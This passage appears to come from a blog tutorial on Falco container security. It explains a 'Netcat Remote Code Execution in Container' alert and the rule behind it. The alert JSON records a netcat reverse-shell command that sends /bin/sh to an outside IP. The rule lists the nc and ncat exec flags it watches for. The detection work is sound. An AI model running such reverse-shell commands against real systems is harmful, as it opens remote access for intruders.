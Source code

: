 ```json
{
  "output": "21:39:47.159547041: Warning Netcat runs inside container that allows remote code execution (user=www-data user_loginuid=-1 command=nc 172.31.93.20 9876 -e /bin/sh container_id=60795d68fdee container_name=eloquent_babbage image=webapp:v1.0)",
  "priority": "Warning",
  "rule": "Netcat Remote Code Execution in Container",
  "source": "syscall",
  "tags": [
    "mitre_execution",
    "network",
    "process"
  ],
  "time": "2022-05-10T21:39:47.159547041Z",
  "output_fields": {
    "container.id": "60795d68fdee",
    "container.image.repository": "webapp",
    "container.image.tag": "v1.0",
    "container.name": "eloquent_babbage",
    "evt.time": 1652218787159547100,
    "proc.cmdline": "nc 172.31.93.20 9876 -e /bin/sh",
    "user.loginuid": -1,
    "user.name": "www-data"
  }
}
```

The rule name is `Netcat Remote Code Execution in Container` (ruh roh). In the output fields section we can see all kinds of useful information such as data about the image, the running container name, the command line associated with the alert, and the user that ran the command. Looking at the [rule](https://github.com/falcosecurity/falco/blob/master/rules/falco_rules.yaml#L2462) syntax it is a fairly simple rule.

```bash
 spawned_process and container and
    ((proc.name = "nc" and (proc.args contains "-e" or proc.args contains "-c")) or
     (proc.name = "ncat" and (proc.args contains "--sh-exec" or proc.args contains "--exec" or proc.args contains "-e "
                              or proc.args contains "-c " or proc.args contains "--lua-exec"))
    )
```

The output for the rule is:
```bash
output: >
    Netcat runs inside container that allows remote code execution (user=%user.name user_loginuid=%user.loginuid
    command=%proc.cmdline container_id=%container.id container_name=%container.name image=%container.image.repository:%container.image.tag)
```

If we wanted to have additional information such as process id or parent process id in the output we could add that. Hindsight being what it is, had I thought of this before starting to write this I would have added pid details to the rule output for additional context.
